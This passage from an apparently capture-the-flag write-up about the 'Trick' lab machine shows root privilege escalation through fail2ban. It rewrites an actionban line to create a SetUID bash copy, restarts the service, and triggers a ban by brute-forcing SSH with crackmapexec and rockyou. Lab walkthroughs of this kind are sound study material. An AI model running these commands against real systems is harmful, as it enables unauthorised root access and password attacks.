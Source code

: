     # Values:  CMD
    #
    actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
    ...[snip]...
    

### Abusing fail2ban

At this point, I have all I need to get execution as root. I’ll start by
changing the `actionban` in `/etc/fail2ban/action.d/iptables-multipath.conf`
to make a copy of `bash` and set it SetUID:

    
    
    # Option:  actionban
    # Notes.:  command executed when banning an IP. Take care that the
    #          command is executed with Fail2Ban user rights.
    # Tags:    See jail.conf(5) man page
    # Values:  CMD
    #
    actionban = cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf
    

Now I’ll restart `fail2ban`:

    
    
    michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
    [ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
    

Finally, I need to trigger the ban:

    
    
    oxdf@hacky$ crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/rockyou.txt 
    SSH         trick.htb       22     trick.htb        [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
    SSH         trick.htb       22     trick.htb        [-] oxdf:123456 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:12345 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:123456789 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:password Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:iloveyou Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:princess Authentication failed.                         
    SSH         trick.htb       22     trick.htb        [-] oxdf:1234567 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:rockyou Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:12345678 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:abc123 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:nicole Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:daniel Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:babygirl Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:monkey Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:lovely Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:jessica Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:654321 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:michael Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:ashley Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:qwerty Authentication failed.  
    ...[snip]...
    